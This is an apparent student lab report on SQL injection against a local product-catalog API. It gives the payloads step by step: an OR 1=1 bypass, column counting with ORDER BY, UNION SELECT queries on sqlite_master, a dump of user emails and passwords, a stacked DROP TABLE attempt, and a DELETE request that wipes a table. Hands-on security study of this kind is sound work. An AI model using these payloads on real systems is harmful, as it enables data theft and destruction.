



# SQL Injection Lab Report

## 1: Identifying SQL Injection and Enumerating Tables

This is a simple local website displaying a product catalog that we are going to try to SQL inject without having any prior knowledge of its source code or backend logic. :

#### 1.1 Vulnerability Verification

I first tested if the :id parameter was vulnerable to SQL injection by using a classic logical bypass:
http://localhost:3003/api/products/1 OR 1=1

The interface returned all products in the database. This confirms that the input is not sanitized, and the OR 1=1 statement (which is always true) overrides the original query logic.

#### 1.2 Determining Column Count

Before using a UNION attack, the number of columns in the original query must match the injected query. I used the ORDER BY clause to find the limit:

    .../api/products/1 ORDER BY 4 (Success)

    .../api/products/1 ORDER BY 5 (Error: TypeError: Missing named parameters)

Success:

Fail:

Since the query succeeded at 4 but failed at 5, the products table has exactly 4 columns.

### 1.3 Enumerating Tables and Views

Since the backend uses SQLite, I queried the sqlite_master system table to find all existing objects:
http://localhost:3003/api/products/-1 UNION SELECT name, type, 3, 4 FROM sqlite_master WHERE type IN ('table', 'view')

Results: I identified the following objects:

    Tables: products, users, and sqlite_sequence.

    Views: productNames.

## 2: Extracting Column Names and Data Types

To extract the database schema, I queried the sql column in [sqlite_master](https://www.sqlite.org/schematab.html), which contains the original CREATE statements for each table.

Payload:
http://localhost:3003/api/products/-1 UNION SELECT sql, tbl_name, type, rootpage FROM sqlite_master WHERE type IN ('table','view')

Findings:
By analyzing the returned SQL strings, I mapped the structure of the users table:

    Table Name: users.

    Columns & Types: id (INTEGER), firstName (TEXT), lastName (TEXT), email (TEXT), password (TEXT), and userRole (TEXT).

## 3: Data Exfiltration (Extracting Users)

With the table and column names identified, I performed a UNION SELECT to dump the contents of the users table.

Payload:
http://localhost:3003/api/products/-1 UNION SELECT firstName, lastName, email, password FROM users

Results:
The REST interface returned the full list of registered users, exposing their names, email addresses, and passwords.

## 4: Deletion of database

4.1 Safety measures
Before attempting any destructive operations, a backup of the database was created by duplicating products.db into product copy.db:

4.2 Attempt 1 (Failed):

My first approach was to attempt a stacked query injection by appending a second SQL commant to the URL:
Payload: http://localhost:3003/api/products/1;%20DROP%20TABLE%20products

Reults: The application crashed and returned a specific error:

Analysis:
This confirms that the backend using the better-sqlite2 library. This specific library is designed with a security feature that explicitly forbids executing more than one sql statement in a single call to .prepare() or .run(). When it detected the semi colon and the second command it blocked the execution entirely to prevent exactly this type of destructive injection.

4.3 Attempt 2 (Success):

I switched tactics to exploit the DELETE route provided by the API. Using thunder client in VS code, I sent a DELETE request to the following endpoint:

http://localhost:3003/api/products/1 OR 1=1

How it works: The backend likely contructs the query as DELETE FROM products WHERE id = [INPUT]. By injecting 1 OR 1=1, the logic beocmes: DELETE FROM poducts WHERE id = 1 OR 1=1;
Since 1=1 is always true, the databse ignores the specific ID and applies the deletion to every row in the table.

4.4. Verification

After executing the request, I refreshed the product page. The interface returned an empty page, confirming the products table had been successfully wiped.

